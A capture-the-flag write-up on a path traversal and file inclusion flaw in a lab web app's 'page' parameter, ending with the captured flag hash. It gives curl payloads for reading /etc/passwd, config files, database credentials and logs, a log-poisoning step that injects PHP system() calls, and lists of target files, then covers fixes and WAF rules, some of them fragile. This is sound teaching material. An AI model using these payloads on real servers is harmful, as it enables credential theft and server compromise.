



# Breach #11: Directory Manipulation (Path Traversal)

## Vulnerability Overview

**Vulnerability Type**: Path Traversal, Directory Traversal, Local File Inclusion (LFI)
**Risk Level**: Critical
**Attack Vector**: URL Parameter Manipulation

The `page` query parameter is vulnerable to path traversal attacks, allowing attackers to access files outside the intended web directory by using relative path sequences (`../`). This can lead to disclosure of sensitive system files.

## Discovery Process

### Step 1: Identify the Vulnerable Parameter
**URL**: `http://192.168.64.2/?page=...`

The application uses a `page` parameter to determine which file to include/render.

### Step 2: Test Basic Path Traversal

**Test 1: Single directory traversal**
```bash
curl 'http://192.168.64.2/?page=../'
```

**Response**: `<script>alert('Wtf ?');</script>`



This confirms the parameter is vulnerable - the server processes the path traversal attempt.

### Step 3: Increase Traversal Depth

**Test 2: Multiple directory traversals**
```bash
curl 'http://192.168.64.2/?page=../../'
```

**Response**: `<script>alert('Wrong..');</script>`



The application recognizes deeper traversal attempts.

### Step 4: Find the Correct Depth

**Test 3: Deep traversal**
```bash
curl 'http://192.168.64.2/?page=../../../../../../../../../'
```

**Response**: `<script>alert('You can DO it !!! :]');</script>`



This indicates we've reached the root directory or appropriate depth.

### Step 5: Access Sensitive System Files

**Attack: Read `/etc/passwd`**
```bash
curl 'http://192.168.64.2/?page=../../../../../../../../../../etc/passwd'
```

**Response**:
```html
<script>alert('Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ');</script>
```


**Flag obtained**: `b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`

## Vulnerability Explanation

### What is Path Traversal?

Path traversal (also known as directory traversal) is a web security vulnerability that allows attackers to read arbitrary files on the server by manipulating file path inputs.

### Vulnerable Code Pattern

```php
<?php
// Vulnerable code
$page = $_GET['page'];
include($page . '.php');  // No validation!
?>
```

**Problems**:
1. **No Input Validation**: Accepts any user input directly
2. **No Path Sanitization**: Doesn't remove `../` sequences
3. **No Whitelist**: Doesn't restrict to allowed files
4. **Direct File Inclusion**: Uses user input in file operations

### How the Attack Works

```
User Input:           ../../../../../../../../../../etc/passwd
Server Interprets:    /var/www/html/../../../../../../../../../../etc/passwd
Resolves To:          /etc/passwd
Result:               Reads system password file
```

### Why This Is Critical

#### 1. Sensitive File Disclosure
- **System Files**: `/etc/passwd`, `/etc/shadow` (if readable)
- **Configuration Files**: Database credentials, API keys
- **Application Files**: Source code, configuration
- **Log Files**: Access logs, error logs

#### 2. Common Target Files on Linux
```
/etc/passwd           - User account information
/etc/shadow           - Encrypted password hashes (if accessible)
/etc/hosts            - Host name mappings
/etc/mysql/my.cnf     - MySQL configuration
/var/www/.env         - Environment variables (credentials)
/proc/self/environ    - Current process environment
/var/log/apache2/access.log  - Web server logs
```

#### 3. Common Target Files on Windows
```
C:\Windows\System32\drivers\etc\hosts
C:\Windows\win.ini
C:\boot.ini
C:\inetpub\wwwroot\web.config
```

## Attack Scenarios

### Scenario 1: Credential Harvesting
```bash
# Read application configuration
curl 'http://192.168.64.2/?page=../../../../var/www/html/config.php'

# Read database credentials
curl 'http://192.168.64.2/?page=../../../../etc/mysql/my.cnf'
```

**Impact**: Database credentials, API keys exposed

### Scenario 2: Source Code Disclosure
```bash
# Read application source code
curl 'http://192.168.64.2/?page=../../../../var/www/html/admin.php'

# Read authentication logic
curl 'http://192.168.64.2/?page=../../../../var/www/html/includes/auth.php'
```

**Impact**: Business logic exposed, security flaws revealed

### Scenario 3: Log File Analysis
```bash
# Read access logs
curl 'http://192.168.64.2/?page=../../../../var/log/apache2/access.log'

# Read error logs
curl 'http://192.168.64.2/?page=../../../../var/log/apache2/error.log'
```

**Impact**: User activity tracked, system information leaked

### Scenario 4: Remote Code Execution (Advanced)
If combined with log poisoning:
```bash
# 1. Poison access log with PHP code
curl 'http://192.168.64.2/' -H "User-Agent: <?php system('whoami'); ?>"

# 2. Include the poisoned log file
curl 'http://192.168.64.2/?page=../../../../var/log/apache2/access.log'
```

**Impact**: Complete server compromise

## Prevention Measures

### 1. Input Validation and Sanitization

```php
<?php
function sanitizePath($path) {
    // Remove null bytes
    $path = str_replace(chr(0), '', $path);

    // Remove path traversal sequences
    $path = str_replace(['../', '..\\', '../', '..\\\\'], '', $path);

    // Remove absolute paths
    $path = str_replace(['/', '\\'], '', $path);

    return $path;
}

$page = sanitizePath($_GET['page']);
?>
```

### 2. Use Whitelists

```php
<?php
// Define allowed pages
$allowed_pages = [
    'home' => 'pages/home.php',
    'about' => 'pages/about.php',
    'contact' => 'pages/contact.php'
];

$page = $_GET['page'] ?? 'home';

if (isset($allowed_pages[$page])) {
    include($allowed_pages[$page]);
} else {
    include('pages/404.php');
}
?>
```

### 3. Use Basename Function

```php
<?php
// Extract only the filename, removing directory components
$page = basename($_GET['page']);
$file_path = 'pages/' . $page . '.php';

if (file_exists($file_path)) {
    include($file_path);
} else {
    include('pages/404.php');
}
?>
```

### 4. Implement Proper Access Controls

```php
<?php
function isPathAllowed($path, $allowed_dir) {
    // Get real path (resolves .. and symlinks)
    $real_path = realpath($path);
    $real_allowed_dir = realpath($allowed_dir);

    // Check if path starts with allowed directory
    if (strpos($real_path, $real_allowed_dir) !== 0) {
        return false;
    }

    return true;
}

$page = $_GET['page'];
$file_path = 'pages/' . $page . '.php';

if (isPathAllowed($file_path, 'pages/')) {
    include($file_path);
} else {
    die('Access denied');
}
?>
```

### 5. Use Chroot or Containers

**Chroot Jail**:
```bash
# Restrict application to specific directory
chroot /var/www/app
```

**Docker Container**:
```dockerfile
FROM php:8.2-apache

# Application files only
COPY ./app /var/www/html

# No access to system files
USER www-data
```

### 6. Web Application Firewall (WAF) Rules

```apache
# ModSecurity rules
SecRule ARGS "@contains ../" "id:1,deny,status:403,msg:'Path traversal attempt'"
SecRule ARGS "@contains ..\\\" "id:2,deny,status:403,msg:'Path traversal attempt'"
```

## Real-World Impact

### Similar Vulnerabilities

1. **Apache 2.4.49 (CVE-2021-41773)**: Path traversal leading to RCE
2. **WordPress Plugins**: Numerous plugins vulnerable to LFI
3. **Microsoft IIS**: Historic vulnerabilities with Unicode encoding
4. **Fortinet SSL-VPN (CVE-2018-13379)**: Critical path traversal vulnerability

### Consequences

- **Data Breach**: Customer data, credentials, source code exposed
- **Compliance Violations**: GDPR, HIPAA, PCI-DSS breaches
- **System Compromise**: RCE through log poisoning or arbitrary file read
- **Reputation Damage**: Loss of customer trust
- **Financial Loss**: Fines, lawsuits, remediation costs

## Security Best Practices

### OWASP Recommendations

1. **Never Trust User Input**: All user input is potentially malicious
2. **Whitelist Over Blacklist**: Define what's allowed, not what's blocked
3. **Principle of Least Privilege**: Run with minimum necessary permissions
4. **Defense in Depth**: Multiple layers of security
5. **Regular Security Audits**: Test for path traversal vulnerabilities

### Implementation Checklist

- [ ] Implement whitelist-based page routing
- [ ] Sanitize all file path inputs
- [ ] Use `basename()` to strip directory components
- [ ] Validate paths with `realpath()` and containment checks
- [ ] Set proper file system permissions
- [ ] Disable directory listing
- [ ] Run application in chroot or container
- [ ] Implement WAF rules for path traversal
- [ ] Log and monitor for traversal attempts
- [ ] Regular penetration testing

## References

- [OWASP - Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [CWE-22: Improper Limitation of a Pathname to a Restricted Directory](https://cwe.mitre.org/data/definitions/22.html)
- [PortSwigger - File Path Traversal](https://portswigger.net/web-security/file-path-traversal)

## Flag

```
b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
```
